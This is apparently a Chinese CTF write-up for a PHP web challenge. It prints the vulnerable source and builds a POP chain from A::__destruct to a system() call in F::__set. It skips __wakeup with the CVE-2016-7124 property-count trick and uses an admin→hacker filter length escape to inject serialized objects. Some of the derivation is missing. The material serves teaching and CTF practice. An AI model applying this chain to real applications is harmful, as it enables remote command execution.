



Geek_Challenge2026 — POP 链与长度扩张绕过
题目类型：Web — PHP 反序列化（POP 链）+ 过滤后长度扩张
题目地址：Geek_Challenge 2026（实例已关闭）
Flag：
SYC{82a8d7ba-d362-4f0e-a49c-22abe6a72b32}
题目概述
题目接收 user 和 sign 两个参数，把它们塞进 A 类后序列化、过一遍过滤器，再反序列化：
过滤器只有一句话：
admin 5 个字符，hacker 6 个字符 —— 每替换一次，字符串就多一个字节，但序列化串里的长度数字不会跟着变。
七个类的骨架（完整源码见文末）：
A __destruct → echo "…" . $this->sign （把对象当字符串拼接）
B __toString → (string)$func() （把对象当函数调用）
C __invoke → $this->target->$m() （调用不存在的方法）
D __call → return $this->next->$p （读取不存在的属性）
E __get → $sink->flag_trigger = $cmd （写私有属性）
F __set → system($value) ← 代码执行在这里
解题过程
Step 1：先找能执行代码的地方
审计代码，先找能执行代码的地方，然后倒着推。
全文只有一个真正的执行点：
class F {
private $flag_trigger;
public function __set($name, $value) {
if ($name !== 'flag_trigger') return;
echo "RCE:<br>";
system($value); // ← 终点
}
}
所以要满足两个条件：$name === 'flag_trigger'，且 $value 是我能控制的字符串。
Step 2：倒推 —— 谁能写 F 的私有属性
$flag_trigger 是 private，从类外部写它就会触发 __set。谁在写它？看 E：
class E {
public $sink;
public $cmd;
public function __get($name) {
if (!($this->sink instanceof F)) return;
$this->sink->flag_trigger = $this->cmd; // ← 写私有属性
}
}
E::__get 里写了 $this->sink->flag_trigger —— 只要 sink 是 F 的实例，就会走到 __set，$value 就是 $this->cmd。
所以 cmd 就是我的命令，从这里传进去。
Step 3：倒推 —— 谁读 E 的不存在属性
__get 是在访问不可访问属性时触发的。看 D：
class D {
public $next;
public $property;
public function __call($name, $arguments) {
if (!is_object($this->next) || !is_string($this->property)) return '';
$p = $this->property;
return $this->next->$p; // ← 读 $next 的属性 $p
}
}
只要 property 写成 E 里不存在的名字（比如 flag），$this->next->$p 就会触发 E::__get。
E 的两个属性是 sink 和 cmd，所以 property 不能是这两个 —— 我用的是 flag。
Step 4：倒推 —— 谁调 D 的不存在方法
__call 在调用不存在的方法时触发。看 C：
class C {
public $target;
public $method;
public function __invoke() {
if (!is_object($this->target) || !is_string($this->method)) return '';
if (!method_exists($this->target, '__call') || method_exists($this->target, $this->method)) return '';
$m = $this->method;
return $this->target->$m(); // ← 调 $target 的方法 $m
}
}
这里有个反向条件，最容易看错：
必须 method_exists($target, '__call') → target 得是有 __call 的类（就是 D）
必须 !method_exists($target, $method) → 这个方法名不能真的存在
所以 method 随便写一个 D 里没有的名字就行（我用 flag），这样才会落到 __call。
Step 5：倒推 —— 谁把对象当函数调用
__invoke 在对象被当成函数调用时触发。看 B：
class B {
public $action;
public function __toString() {
if (!is_object($this->action) || !method_exists($this->action, '__invoke')) return '';
$func = $this->action;
return (string)$func(); // ← 对象当函数调
}
}
action 放 C 的实例，$func() 就会触发 C::__invoke。
Step 6：倒推 —— 谁把 B 当字符串
__toString 在对象被当做字符串处理时触发。 看 A：
class A {
public $user;
public $sign;
public function __destruct() {
echo "Welcome to Geek_Challenge2026!<br>";
echo "Profile signature: " . $this->sign . "<br>"; // ← 字符串拼接
}
}
$this->sign 用 . 拼接，把对象当字符串 —— 把 B 的实例放进去，就会触发 B::__toString。
到这里整条链就闭合了：
Step 7：构造 pop 链
这道题完全按照从上往下的顺序触发，所以正着讲就是 A → B → C → D → E → F。

$a = new A();
$a->user = 'admin';
$a->sign = new B();
$a->sign->action = new C();
$a->sign->action->target = new D();
$a->sign->action->method = 'flag';
$a->sign->action->target->next = new E();
$a->sign->action->target->property = 'flag';
$a->sign->action->target->next->sink = new F();
$a->sign->action->target->next->cmd = 'env';
Step 8：绕过 __wakeup
在反序列化时会先调用 __wakeup，然后它会把 $this->action 置为空：
class B {
public function __wakeup() {
echo "唉？你怎么醒了，回去吧你<br>";
$this->action = null; // ← 链从这里就断了
}
}
所以这里最后输出序列化串的时候，记得把 B 的属性数加 1 绕过 wakeup 方法。
原理是 CVE-2016-7124：属性数大于实际个数时，PHP 会跳过 __wakeup。只在 PHP < 5.6.25 / 7.0.10 有效 —— 这题能过，说明目标 PHP 就在这个范围内。
Step 9：为什么是 192 —— 长度扩张
前面序列化一次、过滤一次，问题出在过滤改变了字符串长度，但长度数字没变。

设 A = admin 的个数，b = 注入的那串（";s:4:"sign";O:1:"B":2:{…）：
过滤前 声明长度 N = 5A + len(b)
过滤后 实际长度 = 6A + len(b) （每个 admin 多 1 字节）
解析器 只读 N 个字节 → 落在 5A + len(b) 这个位置
注入的 "; 在 b 的开头，也就是过滤后的 6A 处。要让解析器正好读到这里，需要：
所以「192」不是随便挑的 —— 它同时是 b 的长度和 admin 的个数。
这也是为什么换命令的时候别忘记改 admin 的个数：命令变长，b 变长，A 就得跟着变。
长度别自己数，用
echo strlen($b)让 PHP 输出，我上面脚本里就是这么做的。
Step 10：执行拿 flag

Welcome to Geek_Challenge2026!
？！强强？！
666，还有第二关
马上就到了
还有一步
RCE:
SYC{82a8d7ba-d362-4f0e-a49c-22abe6a72b32}
注意两点：
解题思路总结
审计源码，先找唯一的执行点：F::__set 里的 system($value)
→ 谁能写 F 的私有属性 → E::__get（写 flag_trigger）
→ 谁读 E 的不存在属性 → D::__call（读 $next->$p）
→ 谁调 D 的不存在方法 → C::__invoke（调 $target->$m）
→ 谁把对象当函数调 → B::__toString（(string)$func()）
→ 谁把 B 当字符串拼 → A::__destruct（echo "…" . $sign）
→ 链成型：A → B → C → D → E → F
→ 属性数 +1 跳过 __wakeup
→ admin 个数 = 注入串长度，让解析器读到注入的 ";
→ system 执行 → env → flag
漏洞原理
① 魔术方法是"自动触发"的，不是被调用的
__destruct / __toString / __invoke / __call / __get / __set 都不需要显式调用 —— 只要你把对象放在那个位置，PHP 自己会触发。
反序列化的价值就在于：我能完全控制每个属性的值和类型。
② 每一层都有前置检查，但检查的是"类型"不是"意图"
| 层 | 检查什么 | 怎么满足 |
|---|---|---|
| B | action 是对象且有 __invoke |
放 C 的实例 |
| C | target 是对象、method 是字符串、target 有 __call、且没有同名方法 |
放 D 的实例，方法名随便写 |
| D | next 是对象、property 是字符串 |
放 E 的实例 |
| E | sink 是 F 的实例 |
放 F 的实例 |
| F | $name === 'flag_trigger' |
由 E 固定写入这个属性名 |
③ 长度扩张：过滤器和序列化器看到的长度不一样
serialize() 按"过滤前"的长度写进串
filter() 把 5 字节的 admin 换成 6 字节的 hacker
unserialize() 按串里写的长度去读 —— 读的位置被"多出来的字节"整体推后
于是我可以控制"解析器停在哪" —— 停在注入的 "; 上，后面那一串就成了新的结构。
关键知识点
| 知识点 | 说明 |
|---|---|
| 找终点 | 审计先找执行点（system / eval / include / call_user_func），再倒着推 |
| POP 链 | 利用属性把对象串起来，靠魔术方法的自动触发一层层走到终点 |
| 反向条件 | !method_exists($target, $method) —— 要求方法名不存在，最容易看错 |
__wakeup 绕过 |
序列化串里属性数写大于实际个数（CVE-2016-7124，PHP < 5.6.25 / 7.0.10） |
| 长度扩张 | 过滤器把短串换成长串，序列化串里的长度数字不变 → 解析位置错位 |
| 长度对齐 | admin 的个数必须等于注入串的长度，解析器才会正好停在注入的 "; 上 |
| 工具 | 长度用 strlen() 输出，不要手数 |
PHP 魔术方法的触发时机
（这段是原理的地基 —— 记住"在什么时机被自动调用"，POP 链就是按时机拼起来的。）
| 方法 | 触发时机 |
|---|---|
__construct() |
用于在创建对象时自动触发：当使用 new 关键字实例化一个类时，会自动调用该类的 __construct() 方法 |
__destruct() |
用于在对象被销毁时自动触发：对象被销毁、引用计数减少为零时触发 |
__sleep() |
序列化 serialize() 函数会检查类中是否存在一个魔术方法 __sleep()。如果存在，该方法会先被调用，然后才执行序列化操作。此功能可以用于清理对象，并返回一个包含对象中所有应被序列化的变量名称的数组 |
__wakeup() |
用于在反序列化对象时自动调用：unserialize() 会检查是否存在一个 __wakeup() 方法，如果存在，则会先调用 __wakeup() 方法 |
__toString() |
在对象被当做字符串处理时自动调用，比如 echo、==、preg_match() |
__invoke() |
在对象被当做函数处理时自动调用 |
__call() |
__call($method, $args) 在调用一个不存在的方法时触发，$args 是数组的形式 |
__callStatic() |
在静态调用或调用成员常量时，使用的方法不存在时触发 |
__set() |
在给不存在的成员属性赋值时触发 |
__isset() |
在对不可访问属性使用 isset() 或 empty() 时会被触发 |
__unset() |
在对不可访问属性使用 unset() 时会被触发 |
__clone() |
当使用 clone 关键字拷贝完成一个对象后就会触发 |
__get() |
当尝试访问不可访问属性时会被自动调用 |
完整源码
<?php
header('Content-Type: text/html; charset=utf-8');
highlight_file(__FILE__);
error_reporting(0);
class A {
public $user;
public $sign;
public function __construct($u, $s) {
$this->user = $u;
$this->sign = $s;
}
public function __destruct() {
echo "Welcome to Geek_Challenge2026!<br>";
echo "Profile signature: " . $this->sign . "<br>";
}
}
class B {
public $action;
public function __wakeup() {
echo "唉？你怎么醒了，回去吧你<br>";
$this->action = null;
}
public function __toString() {
echo "？！强强？！<br>";
if (!is_object($this->action) || !method_exists($this->action, '__invoke')) {
return '';
}
$func = $this->action;
return (string)$func();
}
}
class C {
public $target;
public $method;
public function __invoke() {
echo "666，还有第二关<br>";
if (!is_object($this->target) || !is_string($this->method)) {
return '';
}
if (!method_exists($this->target, '__call') || method_exists($this->target, $this->method)) {
return '';
}
$m = $this->method;
return $this->target->$m();
}
}
class D {
public $next;
public $property;
public function __call($name, $arguments) {
echo "马上就到了<br>";
if (!is_object($this->next) || !is_string($this->property)) {
return '';
}
$p = $this->property;
return $this->next->$p;
}
}
class E {
public $sink;
public $cmd;
public function __get($name) {
echo "还有一步<br>";
if (!($this->sink instanceof F)) {
return;
}
$this->sink->flag_trigger = $this->cmd;
}
}
class F {
private $flag_trigger;
public function __set($name, $value) {
if ($name !== 'flag_trigger') {
return;
}
echo "RCE:<br>";
system($value);
}
}
function filter($data) {
return str_replace("admin", "hacker", $data);
}
if (isset($_GET['user']) && isset($_GET['sign'])) {
$u = $_GET['user'];
$s = $_GET['sign'];
$entry = new A($u, $s);
$ser = serialize($entry);
$escaped = filter($ser);
unserialize($escaped);
} else {
echo "w(ﾟДﾟ)w";
}
?>